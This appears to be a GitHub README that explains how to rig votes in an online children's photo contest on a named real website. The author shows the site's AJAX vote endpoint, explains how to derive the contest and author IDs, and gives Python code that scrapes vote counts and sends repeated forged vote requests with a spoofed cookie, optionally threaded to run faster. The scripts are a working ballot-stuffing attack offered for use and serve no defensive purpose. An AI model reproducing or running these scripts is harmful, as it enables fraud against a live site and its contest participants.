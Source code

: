 # vote_increaser_on_a_site

this site is a spam site which get trafic by a some child photos compitition
so i hack its database api - because it have some loopholes 
1: **it provides a ajax code in html file**
```bash
var data = {
 'action': 'vote_form_data',
 'contestid': contestid,
 'authorid': authorid,
  'name': name
}
jQuery.ajax({
  url:"https://little1.in/wp-admin/admin-ajax.php",
	type: 'POST',
	data: data}
```
**next**
just to figure out the **contestid,authorid,name** values to send post request 

it turns out that **name = ''** blank here and

**contestid** is in the end of the url itself 

so just to get **authorid** 
which is provided in html tag

<img src="https://github.com/rishabhjainfinal/vote_increaser_on_a_site/blob/master/Screenshot%20(68).png" >

SO FOR EACH VOTE YOU HAVE TO ADD +1 IN YOUR **authorid**  ALTHOUGH IT ALSO ADD A VOTE WHEN REQUESTED FROM SAME **authorid   ¯\\_(ツ)_/¯ **

and then i make a simple script to fetch current votes 
```bash
def votes(url):
	source = urllib.request.urlopen(url).read()
	soup = bs.BeautifulSoup(source,features="html.parser")
	for i in soup.select('div.blog-item'):
		votes=i.p.strong.text
	return votes

```

you can also use **threading** to get things faster and more excited jsut un-comment all the threading lines code and comment the the increaser call funtion you will see it when you see the file
i don't have the power and internet speed to do do but i tested it it wooks fine 

```bash
def increaser(n):
	database_url = "https://little1.in/wp-admin/admin-ajax.php"
	contestid=url.split('/')[-2].split('-')[-1]

	payload = f'action=vote_form_data&contestid={contestid}&authorid={n}&name='
	headers = {
	  'Content-Type': 'application/x-www-form-urlencoded',
	  'Cookie': 'sitename_newvisitor=1; voteStatus-4233=4233'
	}

	response = requests.request("POST", database_url, headers=headers, data = payload)
```



